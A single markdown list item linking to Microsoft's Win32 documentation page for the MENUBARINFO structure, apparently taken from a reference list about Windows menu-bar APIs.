- [https://docs.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-menubarinfo](https://docs.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-menubarinfo)
